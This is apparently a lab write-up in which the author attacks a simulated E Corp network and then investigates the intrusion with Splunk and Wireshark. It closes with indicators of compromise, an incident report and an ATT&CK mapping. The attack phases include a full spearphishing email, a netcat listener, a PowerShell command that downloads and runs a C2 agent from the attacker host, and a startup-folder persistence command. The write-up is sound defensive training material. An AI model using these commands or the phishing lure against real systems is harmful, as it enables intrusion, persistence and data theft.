Overview
Lab Environment
Two isolated LANs separated by a pfSense firewall, all running inside VirtualBox. The attacker machine sits on LAN1 and has no direct access to LAN0 — all traffic passes through the firewall.
LAN1 — Attacker Network (10.0.3.1/24)
└── Kali Linux 10.0.3.2 [Attacker]
LAN0 — Target Network (10.0.1.1/24)
├── Domain Controller 10.0.1.3 [ECorp AD]
└── Windows 11 10.0.1.2 [Victim]
pfSense Firewall [Network boundary]
Home Router [WAN / Internet]
Splunk is deployed on the victim machine (10.0.1.2) collecting local endpoint telemetry via Sysmon. Wireshark captures are taken from both pfSense and the victim machine directly to cover intra-LAN traffic blind spots.
Splunk (on 10.0.1.2)
├── Sysmon Operational logs
├── Windows PowerShell logs
└── Windows Event Logs
Wireshark captures
├── pfSense → inter-LAN traffic
└── 10.0.1.2 → intra-LAN (SMB)
Phase 01
Initial Access — Phishing Attack
A PowerShell payload was crafted inside Bonus1.iso — the ISO contains UNZIPPER.BAT (the downloader) and a decoy bonus.txt. When the victim runs the bat file, it silently pulls earnings_statement.bat from the attacker's HTTP server and executes it, establishing a reverse shell on port 1337.
Before launching the attack, a Netcat listener and a Python HTTP server are staged on the attacker machine:
python3 -m http.server 8000
nc -lvp 1337

A spearphishing email is sent to the victim impersonating the HR department of E Corp, creating urgency around an executive bonus. The ISO file is attached and the victim is instructed to run the unzipper to access the documents.
From: EC0rp HR
To: Phillip Price
Subject: Executive Bonus — Immediate Action Required
Dear Mr. Price,
We are pleased to inform you that as part of our company's
recent success, you have been selected to receive an executive
bonus. To ensure your bonus is processed in the next pay cycle,
please review and confirm your details in the attachment.
Please find the "unzipper" file and execute it to unzip the file.
If the information is correct, no further action is needed.
Please complete the confirmation by end of day.
Best regards,
HR
Attachment: Bonus1.iso
The victim opens the email, mounts the ISO, and executes UNZIPPER.BAT as instructed. The script invokes a PowerShell web request to pull earnings_statement.bat from the attacker's HTTP server and runs it — triggering the reverse shell connection back to Kali on port 1337.

With shell access established, basic reconnaissance is performed on the victim machine to understand the environment:
whoami
ipconfig
systeminfo
netstat -ano

A Splunk alert fires on the victim machine (10.0.1.2) — four enumeration commands (whoami, ipconfig, systeminfo, netstat -ano) executed within 60 seconds. Investigation begins.
Investigation start: 29.04.2026 — 18:58
source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
EventCode=1
| table _time EventCode process_name parent_process_name CommandLine
Sorting by _time ascending reveals the full execution chain:
\Windows\Temp\



source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
EventCode=1 OR EventCode=11
| table _time EventCode file_name process_name parent_process_name CommandLine
\Windows\Temp\


source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
EventCode=3
| table _time EventCode host process_name dest_ip src_ip
Two outbound PowerShell connections detected from the victim machine to an unknown IP:
IOC noted: 10.0.3.2 — unknown destination, flagged for further investigation.

Filter: ip.addr == 10.0.3.2
The three-way handshake (SYN → SYN-ACK → ACK) between the victim (10.0.1.2) and the suspicious IP (10.0.3.2) is immediately visible, confirming an active connection was established.

A GET request for earnings_statement.txt is visible — this is the payload being pulled from the attacker's HTTP server.

Following the HTTP stream reveals the reverse shell payload in plain text.

The subsequent TCP stream shows the enumeration commands being executed through the shell — confirming attacker interaction post-compromise.

Investigation end: 29.04.2026 — 20:41
Phase 02
C2 · Persistence · Lateral Movement · Data Exfiltration
A Mythic C2 Apollo payload is generated using an HTTP C2 profile, configured to call back to the attacker machine at 10.0.3.2. The agent is named rsk.exe.
The agent is delivered via the existing reverse shell using a PowerShell one-liner:
powershell -Command "& {
Invoke-WebRequest -URI http://10.0.3.2:8000/rsk.exe `
-OutFile C:\Windows\Temp\rsk.exe;
C:\Windows\Temp\rsk.exe
}"
The Mythic UI confirms an active callback from the target — the C2 agent is live.

To ensure the C2 agent survives reboots, rsk.exe is copied to the Windows startup folder. Every time the machine boots, the agent calls back to the C2 server automatically.
powershell Copy-Item `
"C:\Windows\Temp\rsk.exe" `
"$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\rsk.exe"
Navigating the victim's file system through Mythic to identify useful documents:
ls C:\Users\pprice\Documents

A draft note is found and read — it reveals the victim has administrator privileges, which is useful context for lateral movement.

Domain controller enumeration is performed from within Mythic:
net_dclist

Among the available shares, SteelMountain stands out. Listing its contents reveals a confidential document.

The confidential memo is read and then exfiltrated via Mythic's download function:


Download on the confidential file"/>Exfiltrated: Confidential Memo Backup Plans.txt from the SteelMountain share on ECorp DC (10.0.1.3).
A Splunk alert fires for a new executable written to \Windows\Temp\. Investigation begins.
Investigation start: 01.05.2026 — 17:53
source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
EventCode=1
| table _time Computer process_name CommandLine ParentImage
| where like(CommandLine, "%\\Windows\\Temp\\%")
Results show rsk.exe dropped in \Windows\Temp\ — this is the starting point of the investigation.

source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
EventCode=1 OR EventCode=11 AND rsk.exe
| table _time EventCode file_name process_name
parent_process_name file_path CommandLine
Five events reconstruct the delivery chain:
\Windows\Temp\



source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
EventCode=3 rsk.exe
| table _time EventCode process_name src_ip dest_ip
rsk.exe is making connections to two destinations:

Filter: ip.addr==10.0.1.2 && ip.addr==10.0.3.2
The GET request for rsk.exe is visible immediately after the three-way handshake. Further down, a repeating pattern emerges:

C2 Beaconing identified: new packets between 10.0.1.2 and 10.0.3.2 appear at intervals of 8–12 seconds. The irregular interval (jitter) is a deliberate evasion technique — random sleep between callbacks to avoid fixed-interval detection rules.

Following the HTTP stream reveals all requests and responses are Base64-encoded and additionally encrypted (likely AES). Content inspection is not possible — this is C2 traffic tunneled over HTTP to evade detection.

Investigation end: 01.05.2026 — 19:52
Investigation start: 08.05.2026 — 20:17
A new capture is taken directly from the victim machine (10.0.1.2) to capture intra-LAN traffic that doesn't pass through pfSense.
Filter: ip.src == 10.0.0.0/16 && ip.dst == 10.0.0.0/16
The same 8–12 second beaconing pattern is immediately visible, confirming the C2 agent is still active.

Filtering for SMB traffic between the victim and the DC reveals the lateral movement and exfiltration:
Filter: ip.addr==10.0.1.2 and tcp.port==445
A Create Request File for Confidential Memo Backup Plans.txt is visible — confirming the file was accessed from the SteelMountain share on the DC and exfiltrated at 19:22:45.872.

Investigation end: 08.05.2026 — 20:55
Findings
Indicators of Compromise
| Indicator | Type | Source | Detection Method |
|---|---|---|---|
| UNZIPPER.BAT | Malicious script | Victim machine | Sysmon EventCode 1 — Splunk |
| earnings_statement.bat (.txt) | Reverse shell payload | \Windows\Temp\ | Sysmon EventCode 1, 11 — Splunk |
| Bonus1.iso | Malicious attachment | Victim machine | Sysmon EventCode 11 — Splunk |
| rsk.exe | Mythic C2 Agent | \Windows\Temp\ + Startup folder | Sysmon EventCode 1, 11 — Splunk |
| 10.0.3.2 | Attacker IP / C2 Server | Network traffic | Sysmon EventCode 3 — Splunk / Wireshark |
| whoami, ipconfig, systeminfo, netstat — under 60s | Rapid enumeration | Victim machine | Sysmon EventCode 1 — Splunk |
| Beaconing every 8–12s with jitter | C2 network pattern | Network traffic | Wireshark — ip.addr==10.0.1.2 && ip.addr==10.0.3.2 |
| Base64 + encrypted HTTP traffic | Obfuscated C2 channel | Network traffic | Wireshark — Follow HTTP Stream |
| SMB Create Request — Confidential Memo Backup Plans.txt | Data exfiltration | ECorp DC (10.0.1.3) | Wireshark — ip.addr==10.0.1.2 && tcp.port==445 |
Post-Incident
Incident Report
Executive Summary
On April 29, 2026, a targeted spearphishing attack was launched against E Corp's internal network, resulting in the full compromise of two critical systems: the workstation of Phillip Price (10.0.1.2) and the E Corp Domain Controller (10.0.1.3). The attacker gained initial access through a malicious email attachment, established a Command & Control channel, performed internal reconnaissance, moved laterally to the Domain Controller, and exfiltrated a confidential document.
The attack was detected and investigated through endpoint telemetry via Splunk (Sysmon) and network traffic analysis via Wireshark. No evidence of ransomware deployment was found within the scope of this investigation.
Prepared by: Ciprian, Cybersecurity Analyst · Classification: Confidential · Report Date: May 8, 2026
Timeline of Events
Affected Systems
| System | IP | Role | Status |
|---|---|---|---|
| Phillip Price Workstation | 10.0.1.2 | Endpoint — initial victim | Compromised |
| ECorp Domain Controller | 10.0.1.3 | Active Directory / File Server | Compromised via lateral movement |
| Attacker Machine (Kali) | 10.0.3.2 | C2 Server | Identified |
Detection Gaps
Gap 1 — Encrypted C2 Traffic: The Mythic C2 agent communicated over encrypted HTTP, making payload content inspection impossible. Data exfiltration over the C2 channel could not be confirmed from a Blue Team perspective. Behavioral analysis (beaconing pattern, jitter) was the only available detection signal.
Gap 2 — Intra-LAN Blind Spot: The pfSense firewall capture does not include traffic between hosts within the same LAN segment. SMB-based lateral movement between 10.0.1.2 and 10.0.1.3 was only visible when packet capture was performed directly on the endpoint. This is a significant visibility gap in the current monitoring architecture.
Gap 3 — Delayed Detection: The initial compromise occurred on April 29. The C2 agent was deployed May 1. Lateral movement and exfiltration were confirmed May 8 — giving the attacker approximately 9 days of undetected access.
Recommendations
Immediate:
- Isolate and reimage both compromised systems (10.0.1.2 and 10.0.1.3)
- Reset all Active Directory credentials — assume full domain compromise
- Block 10.0.3.2 at the pfSense firewall level
- Remove all identified malicious files: UNZIPPER.BAT, earnings_statement.bat, rsk.exe, Bonus1.iso
- Audit SteelMountain share permissions and access logs on the DC
Short-term (0–30 days):
- Deploy span ports or endpoint capture to eliminate the intra-LAN visibility blind spot
- Create Splunk alerts for: rapid enumeration under 60s, new executables in \Windows\Temp\, outbound PowerShell connections, and beaconing patterns
- Enable PowerShell Script Block Logging and Module Logging across all endpoints
- Block ISO attachments and password-protected archives at the email gateway
- Implement application whitelisting for \Windows\Temp\
Long-term (30–90 days):
- Restrict SMB access between workstations and domain controllers to authorized systems only
- Deploy an EDR solution for real-time host-level detection
- Conduct phishing awareness training for all E Corp employees
- Establish a formal Incident Response playbook
- Implement TLS inspection for internal HTTP traffic to detect encrypted C2 channels
Framework
MITRE ATT&CK Mapping
| Tactic | Technique | ID |
|---|---|---|
| Initial Access | Phishing: Spearphishing Attachment | T1566.001 |
| Execution | User Execution: Malicious File | T1204.002 |
| Execution | Command and Scripting Interpreter: PowerShell | T1059.001 |
| Persistence | Boot or Logon Autostart Execution: Startup Folder | T1547.001 |
| Discovery | System Information Discovery | T1082 |
| Discovery | Network Configuration Discovery | T1016 |
| Discovery | System Network Connections Discovery | T1049 |
| Discovery | Account Discovery: Domain Account | T1087.002 |
| Lateral Movement | Lateral Tool Transfer | T1570 |
| Lateral Movement | Remote Services: SMB/Windows Admin Shares | T1021.002 |
| Command & Control | Encrypted Channel | T1573 |
| Command & Control | Application Layer Protocol: Web Protocols | T1071.001 |
| Exfiltration | Exfiltration Over C2 Channel | T1041 |
ATT&CK Navigator Export
